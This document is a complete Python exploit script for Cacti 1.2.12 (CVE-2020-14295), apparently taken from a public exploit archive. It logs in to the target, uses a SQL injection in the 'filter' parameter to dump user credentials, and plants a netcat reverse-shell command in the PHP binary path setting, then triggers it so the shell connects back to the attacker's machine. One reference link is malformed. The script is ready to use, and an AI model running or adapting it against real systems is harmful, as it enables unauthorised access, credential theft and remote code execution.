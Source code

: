 EXP
---

    # Exploit Title: Cacti 1.2.12 - 'filter' SQL Injection / Remote Code Execution
    # Date: 04/28/2021
    # Exploit Author: Leonardo Paiva
    # Vendor Homepage: https://www.cacti.net/
    # Software Link: https://www.cacti.net/downloads/cacti-1.2.12.tar.gz
    # Version: 1.2.12
    # Tested on: Ubuntu 20.04
    # CVE : CVE-2020-14295
    # Credits: @M4yFly (https://twitter.com/M4yFly)
    # References:
    # https://github.commandcom/Cacti/cacti/issues/3622
    # https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-14295

    #!/usr/bin/python3

    import argparse
    import requests
    import sys
    import urllib.parse
    from bs4 import BeautifulSoup

    # proxies = {'http': 'http://127.0.0.1:8080'}


    def login(url, username, password, session):
        print("[+] Connecting to the server...")
        get_token_request = session.get(url + "/cacti/index.php", timeout=5) #, proxies=proxies)

        print("[+] Retrieving CSRF token...")
        html_content = get_token_request.text
        soup = BeautifulSoup(html_content, 'html.parser')

        csrf_token = soup.find_all('input')[0].get('value').split(';')[0]

        if csrf_token:
            print(f"[+] Got CSRF token: {csrf_token}")
            print("[+] Trying to log in...")

            data = {
                '__csrf_magic': csrf_token,
                'action': 'login',
                'login_username': username,
                'login_password': password
            }

            login_request = session.post(url + "/cacti/index.php", data=data) #, proxies=proxies)
            if "Invalid User Name/Password Please Retype" in login_request.text:
                print("[-] Unable to log in. Check your credentials")
                sys.exit()
            else:
                print("[+] Successfully logged in!")
        else:
            print("[-] Unable to retrieve CSRF token!")
            sys.exit()


    def exploit(lhost, lport, session):
        rshell = urllib.parse.quote(f"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {lhost} {lport} >/tmp/f")
        payload = f"')+UNION+SELECT+1,username,password,4,5,6,7+from+user_auth;update+settings+set+value='{rshell};'+where+name='path_php_binary';--+-"

        exploit_request = session.get(url + f"/cacti/color.php?action=export&header=false&filter=1{payload}") #, proxies=proxies)

        print("\n[+] SQL Injection:")
        print(exploit_request.text)

        try:
            session.get(url + "/cacti/host.php?action=reindex", timeout=1) #, proxies=proxies)
        except Exception:
            pass

        print("[+] Check your nc listener!")

    if __name__ == '__main__':
        parser = argparse.ArgumentParser(description='[*] Cacti 1.2.12 - SQL Injection / Remote Code Execution')

        parser.add_argument('-t', metavar='<target/host URL>', help='target/host URL, example: http://192.168.15.58', required=True)
        parser.add_argument('-u', metavar='<user>', help='user to log in', required=True)
        parser.add_argument('-p', metavar='<password>', help="user's password", required=True)
        parser.add_argument('--lhost', metavar='<lhost>', help='your IP address', required=True)
        parser.add_argument('--lport', metavar='<lport>', help='your listening port', required=True)
        args = parser.parse_args()

        url = args.t
        username = args.u
        password = args.p
        lhost = args.lhost
        lport = args.lport

        session = requests.Session()

        login(url, username, password, session)
        exploit(lhost, lport, session)
